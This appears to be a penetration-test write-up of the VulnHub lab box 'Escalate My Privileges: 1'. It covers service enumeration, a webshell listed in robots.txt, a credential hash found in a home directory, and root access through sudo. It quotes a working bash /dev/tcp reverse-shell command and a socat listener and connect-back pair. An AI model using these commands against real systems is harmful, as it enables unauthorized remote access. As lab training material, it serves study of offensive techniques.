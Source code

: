 # Target: VulnHub – Escalate My Privileges: 1

## Engagement Overview
**Target:** Escalate My Privileges (VulnHub)  
**Box IP:** 192.168.56.105

---

### Objectives
- Perform enumeration of open services
- Identify and access webshell
- Gain reverse shell and elevate privileges to root
- Practice stable shell upgrades
- Document privilege escalation path and operational flow

---

## Service Enumeration

**Ports Open:**  
- 22/tcp – OpenSSH 7.4  
- 80/tcp – Apache 2.4.6 (CentOS), PHP 5.4.16  

**Web Discoveries:**  
- `/phpbash.php` webshell found via `robots.txt`

---

## Methodologies

- Manual Nmap scanning and web fuzzing
- Used reverse shell from webshell to gain access
- Parsed local files for credentials
- Upgraded shell to full interactive session via `socat`

---

## Initial Access

**Vector:** Webshell (`/phpbash.php`) → Reverse Shell

**Command Used:**
```bash
bash -c 'bash -i >& /dev/tcp/192.168.56.10/6969 0>&1'
```

**User Discovered:** `armour`  
**Credentials Found:**  
`/home/armour/Credentials.txt`  
Password hash: `b7bc8489abe360486b4b19dbc242e885`

**Shell Context:** User shell with limited terminal functionality

---

## Privilege Escalation

**Method Used:**  
- Spawned full interactive TTY shell with `socat`:
```bash
# On Kali
socat file:`tty`,raw,echo=0 tcp-listen:6969

# On Target
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<kali_ip>:6969
```

**Result:** Stable shell with job control and sudo access

**Command:**  
```bash
sudo -i
```

**Privilege Level Achieved:** `root`

---

## House Cleaning

- Verified shell stability
- No post-ex cleanup necessary (educational target)
- All commands used were non-destructive

---

## Post-Exploitation

**Tools Utilized**
* Nmap
* Netcat
* Python (basic PTY attempts)
* Socat (final interactive upgrade)
* Manual inspection and enumeration tools

---

## Key Takeaways

* Default PTY upgrades can fail in constrained environments
* `socat` provides reliable shell stability with full TTY features
* Always validate sudo configuration post-access
* Credential discovery in home dirs is common and often overlooked
* One good shell is only as useful as your ability to control and maintain it
* This box was simple, but still educational — initial webshell usage and shell stabilization were both areas of growth
* Even easy boxes can yield important lessons when approached with deliberate intent

---

### Status: COMPLETED
